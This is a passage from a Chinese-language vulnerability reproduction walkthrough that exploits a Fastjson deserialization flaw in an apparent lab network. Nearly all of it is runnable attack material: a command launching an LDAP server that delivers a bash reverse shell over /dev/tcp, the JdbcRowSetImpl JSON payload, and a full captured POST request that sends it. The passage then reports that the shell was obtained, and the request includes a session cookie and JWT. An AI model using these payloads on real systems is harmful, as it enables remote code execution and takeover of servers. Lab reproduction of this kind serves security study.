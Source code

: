 ```python
java -cp fastjson_tool.jar fastjson.HLDAPServer 192.168.70.4 8888 "bash=/bin/bash -i >& /dev/tcp/192.168.70.4/7777 0>&1"
```

![image-20240923170635072](https://image.201068.xyz/assets/36.漏洞复现/image-20240923170635072.png)

```python
{"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://192.168.70.4:8888/Object","autoCommit":true}}
```

## 6.payload

### 利用payload开始攻击，获得反弹shell 

利用生成的payload进行攻击

访问网址`192.168.70.14:8090`，使用BP进行抓包改包

```python
POST / HTTP/1.1
Host: 192.168.70.14:8090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: xp=MTcyNjY1ODAzMnxEWDhFQVFMX2dBQUJFQUVRQUFBcF80QUFBUVp6ZEhKcGJtY01Dd0FKVTJGbVpVVnVkSEo1Qm5OMGNtbHVad3dJQUFZell6Tm1aVGM9fDOy-oDYUAgD_tkEFS7sngh5VEKhWsYxRJM3ltlst2hS; vue_admin_template_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoxLCJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzI3MTU5NjYyLCJlbWFpbCI6IiJ9.YRFGYOhPRNvg7D2xfYYPPCn-u1CeuaknKtRmoJimSH4
Connection: keep-alive
Content-Length: 68

{"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://192.168.70.4:8888/Object","autoCommit":true}}
```

![image-20240923171254202](https://image.201068.xyz/assets/36.漏洞复现/image-20240923171254202.png)

![image-20240923172220470](https://image.201068.xyz/assets/36.漏洞复现/image-20240923172220470.png)

### 反弹shell成功

监听界面出现如下提示表明获得反弹shell

![image-20240923171319351](https://image.201068.xyz/assets/36.漏洞复现/image-20240923171319351.png)

![image-20240923171354733](https://image.201068.xyz/assets/36.漏洞复现/image-20240923171354733.png)
